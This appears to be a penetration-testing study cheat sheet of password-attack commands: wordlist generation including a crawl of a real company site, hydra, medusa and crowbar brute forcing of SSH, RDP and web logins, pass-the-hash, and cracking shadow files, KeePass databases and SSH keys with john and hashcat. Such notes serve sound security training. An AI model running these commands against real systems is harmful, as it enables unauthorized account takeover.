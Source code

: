 ### Cewl
```
cewl https://www.tesla.cn -v -a -m(min) 1 -w tesla.txt
```

### Crunch
```
crunch 8(min) 8(max) -t ,@@^^%%%

PLACEHOLDER	CHARACTER TRANSLATION
@	Lower case alpha characters
,	Upper case alpha characters
%	Numeric characters
^	Special characters including space

crunch 4 6 0123456789ABCDEF(char set) -o crunch.txt
```
### Medusa
###### HTTP htaccess Attack with Medusa
```
medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
medusa -d(check out supported modules)
```

### Crowbar
```
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```
### Hydra
>Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
```
hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
hydra 10.11.0.22 http-form-post "/form/frontpage.php:user(post_form_key)=admin&pass(post_form_key)=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f(stop the attack when the first successful result is found)
```
### Hash Identification
```
hashid c43ee559d69bc7f691fe2fbfe8a5ef0a
hashid '$6$l5bL6XIASslBwwUD$bCxeTlbhTH76wE.bI66aMYSeDXKQ8s7JNFwa1s1KkTand6ZsqQKAF3G0tHD9bd59e5NAz/s7DQcAojRTWNpZX0'
```
### Passing the Hash in Windows
>Scenario:
>cracking password hashes can be very time-consuming and is often not feasible without powerful hardware. However, sometimes we can leverage Windows-based password hashes without resorting to a laborious cracking process.  
During our assessment, we discovered a local administrative account that is enabled on multiple systems. We exploited a vulnerability on one of these systems and have gained SYSTEM privileges, allowing us to dump local LM and NTLM hashes. We have copied the local administrator NTLM hash and can now use it instead of a password to gain access to a different machine, which has the same local administrator acount and password
```
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```
### Cryptography
> $1$: MD5-based crypt ('md5crypt')  
> $2$: Blowfish-based crypt ('bcrypt')[^bcrypt]  
> $sha1$: SHA-1-based crypt ('sha1crypt')  
> $5$: SHA-256-based crypt ('sha256crypt')  
> $6$: SHA-512-based crypt ('sha512crypt')  

md5sum plain-text, sha1sum plain-text, sha256sum plain-text, sha512sum plain-text  
> https://crackstation.net/ (unsalted hash crack)  
###### Generate salted hash
mkpasswd -m sha512crypt foobar -S "M3vwJPAueK2a1vNM"

###### Symmetric
gpg -c --cipher-algo blowfish blowfish.plain  
gpg --decrypt blowfish.plain.gpg  
gpg -c --cipher-algo aes256 aes256.plain  
gpg --decrypt aes256.plain.gpg

###### Asymmetric 
> https://www.cs.drexel.edu/~jpopyack/Courses/CSP/Fa17/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt_v2.html  

gpg --gen-key(enter realname--Offsec and email--test@example.com for identification)  
gpg --output example-pub.asc --armor --export Offsec  
gpg --recipient Offsec --encrypt plain.txt  
gpg --decrypt plain.txt.gpg  
gpg --import melanie-private.asc  
gpg --decrypt decrypt-me.gpg(need to enter passphrase)  

###### John the ripper
john --wordlist=rockyou.txt hash  
john -form=dynamic='sha1(md5(sha512($p.$s).$p).$s)' --wordlist=rockyou.txt hash  
john --wordlist=rockyou.txt user_shadow_hash($6$VvN1wBiLLmqWtRXY$oPzxsQbXqdzIISj5NzmKeiUcfXGvFJzqi9YFCzOtdOOI4yOqXm.UBiP7oLeDH8kZUgCtwBwY.YcbqVx7RWlj51)  
john hash.txt --format=NT  
>We have two machines, each with an 8-core CPU. On the first machine we would set the --fork=8 and --node=1-8/16 options, instructing John to create eight processes on this machine, split the supplied wordlist into sixteen equal parts, and process the first eight parts locally. On the second machine, we could use --fork=8 and --node=9-16 to assign eight processes to the second half of the wordlist.

###### John crack shadow file
unshadow /etc/passwd /etc/shadow > unshadowed.txt  
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt  

### Hashcat
```
built-in charset
• ?l = abcdefghijklmnopqrstuvwxyz 
• ?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ
• ?d = 0123456789
• ?h = 0123456789abcdef
• ?H = 0123456789ABCDEF
• ?s = «space»!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
• ?a = ?l?u?d?s
• ?b = 0x00 - 0xff 

-w 1 (Light): Low workload intensity, suitable for background tasks.
-w 2 (Medium): A moderate workload intensity.
-w 3 (Normal): The default workload intensity.
-w 4 (Heavy): High workload intensity, which may heavily utilize system resources.
--hwmon-disable would prevent Hashcat from monitoring the GPU's temperature and fan speed

nvidia-smi -i [device-id-integer] -pl [power-level] drop nvidia max power
nvidia-smi -a | egrep '^GPU|  Power Limit|Default Power Limit|Power Draw' check current power limit
```
```
hashcat -a 0(dictionary) -m 13000 hash wordlist -O -w 1
```
###### Combine each char set(114) with each number(1000) = 114000
```
/usr/lib/hashcat-utils/combinator.bin flag2.txt numbers.txt > hash.txt
```
###### MS Cache v2 
```
From : k.smith:0A2503288EFD46133D4082305CF5D2EA:SKYLARK:SKYLARK.COM
To : Format: $DCC2$10240#user#hash
```
###### kdbx
```
keepass2john Database.kdbx > Keepasshash.txt
hashcat -a 0 -m 13400 hash dic 
```
###### nsldap, SHA-1(Base64), Netscape LDAP SHA
```
Format: {SHA}uJ6qx+YUFzQbcQtyd2gpTQ5qJ3s=
HashMode: 101
```
### Hash Identification
If contains special characters
```
hashid 'hash in here'
```
### Cracking ssh private key passphrase
Hashcat
```
ssh2john id_rsa > ssh.hash
```
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/21cf06d5-cdcf-42cd-8f8b-b6ffcebff5ae)

John
```
cat ssh.rule
[List.Rules:sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
```
```
sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf' (add a name for the rules and append them to the /etc/john/john.conf)
john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```
